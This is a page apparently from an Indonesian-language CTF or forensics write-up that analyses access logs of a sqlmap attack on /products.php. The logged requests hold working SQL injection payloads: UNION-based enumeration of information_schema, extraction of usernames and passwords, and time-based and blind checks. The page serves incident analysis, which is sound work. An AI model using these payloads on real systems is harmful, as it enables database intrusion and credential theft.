

# Perimeter Breach — SQL injection — sqlmap

[← Overview](07-perimeter-breach.md) · [Index](index.md)

## 2.2 SQL injection — sqlmap

```text
185.220.101.47 - - [10/Oct/2026:13:15:31 +0700] "GET /products.php?id=1 HTTP/1.1" 200 4233 "-" "sqlmap/1.7.2#stable (https://sqlmap.org)"
185.220.101.47 - - [10/Oct/2026:13:15:32 +0700] "GET /products.php?id=1%27 HTTP/1.1" 500 0 "-" "sqlmap/1.7.2#stable"
185.220.101.47 - - [10/Oct/2026:13:15:35 +0700] "GET /products.php?id=1%20AND%201%3D1 HTTP/1.1" 200 4121 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:35 +0700] "GET /products.php?id=1%20AND%201%3D2 HTTP/1.1" 200 4722 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:46 +0700] "GET /products.php?id=-1%27%20UNION%20SELECT%201%2C2%2C3%2C4%2C5--%20- HTTP/1.1" 200 5093 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:48 +0700] "GET /products.php?id=-1%27%20UNION%20SELECT%201%2Ctable_name%2C3%2C4%2C5%20FROM%20information_schema.tables%20WHERE%20table_schema%3Ddatabase%28%29--%20- HTTP/1.1" 200 4372 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:50 +0700] "GET /products.php?id=-1%27%20UNION%20SELECT%201%2Cusername%2Cpassword%2C4%2C5%20FROM%20users--%20- HTTP/1.1" 200 4995 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:51 +0700] "GET /products.php?id=1%20AND%20SLEEP%285%29 HTTP/1.1" 200 4841 "-" "sqlmap/1.7.2"
185.220.101.47 - - [10/Oct/2026:13:15:53 +0700] "GET /products.php?id=1%27%20AND%20ASCII%28SUBSTRING%28%28SELECT%20password%20FROM%20users%20LIMIT%200%2C1%29%2C1%2C1%29%29%3E120--%20- HTTP/1.1" 200 5187 "-" "sqlmap/1.7.2"
```

Terlihat UNION-based SQLi, enumerasi `information_schema`, lalu ekstraksi `username,password FROM users`. Setelah itu penyerang melakukan brute-force login admin (60 request `POST /admin/login.php` dalam ~60 detik, 13:41:00–13:42:00).

### Evidence langkah ini



*Terminal evidence — `02-attacker-requests.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-attacker-requests.txt`](assets/perimeter-breach/02-attacker-requests.txt)
